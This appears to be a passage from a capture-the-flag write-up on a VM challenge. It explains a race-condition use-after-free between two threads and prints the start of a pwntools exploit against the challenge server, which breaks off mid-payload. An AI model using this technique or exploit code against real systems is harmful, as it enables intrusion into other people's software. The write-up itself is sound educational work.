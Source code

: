 ```c
struct reg_list {
  uint64_t is_free;
  union {
    uint64_t rand_digit; // used when is_free == 1
    uint8_t list[0x10000]; // used when is_free == 0
  }
};
```

### 0x02 Vulnerabilty

Actually, there are many problems in the program. For example, the VM of `precheck.py` is inconsistent with VM of the binary program, which could cause type confusion. However, such type confusion does not seem to be exploitable. The actual problem that we use to solve the challenge is the race condition.

As we have mentioned earlier, the register rewrite is performed in a different thread (`0x1E60`, including freeing the `reg_list` structure) from another operation like writing element in a list referenced by a register (thread `0x16F0`). We have also found that there is a `sleep` function called in some element operations. For example, writing element of a list referenced by a register:

```c
/* code snippet in function 0x16F0 */
// obtain the register value
v17 = (reg_list *)*registers;
// sleep that is long enough for other threads to terminate
sleep(1u);
// write element at index specified by the third byte to immediate number specified by the forth byte
v17->list[(unsigned __int8)ptr->third_byte] = ptr->high_byte;
```

Consider we have two consecutive instructions: `X0 = reg` and `X0[idx] = val`. We should note that writing `X0` (and also freeing list referenced by `X0`) and writing `X0[idx]` are both executed in the *same cycle*, by thread function `0x1E60` and thread function `0x16F0` respectively. Therefore, if we can fetch `*register` (`X0`) to `v17` before the list referenced by `X0` is freed by `0x1E60`, after `sleep(1)` the `v17` will point to a `reg_list` structure with `is_free == 1`; thus, we can write field `list` of a freed `reg_list` structure, which is now interpreted as `rand_digit`! Therefore, by setting the first byte to `10`, we can actually load the flag content into the list when this corrupted `reg_list` is allocated again. The full exploit is shown below:

```python
from pwn import *

context(log_level='info')

sh = remote("43.202.54.209", 1234)
# sh = process("./app")
# gdb.attach(sh, "c")
# sleep(2)

def send_insts(insts):
    sh.sendlineafter(b"Inst Size >", str(len(insts)).encode())
    for inst in insts:
        sh.sendline(str(u32(inst)).encode())
    for inst in insts:
        sh.recvuntil(b" > ")

alloc_list = lambda reg : p8(2) + p8(reg) + p16(0xffff)
read_reg_idx = lambda dst, src, idx : p8(4) + p8(dst) + p8(src) + p8(idx)
write_reg0_idx = lambda idx, data : p8(3) + p8(0) + p8(idx) + p8(data)
copy_reg = lambda dst, src : p8(1) + p8(dst) + p8(0) + p8(src)
dump_regs = lambda : p32(7)

prog = [alloc_list(0), alloc_list(1), # allocate 2 buffers
    copy_reg(0, 1), # transfer x1 to x0, x0 will be released
```
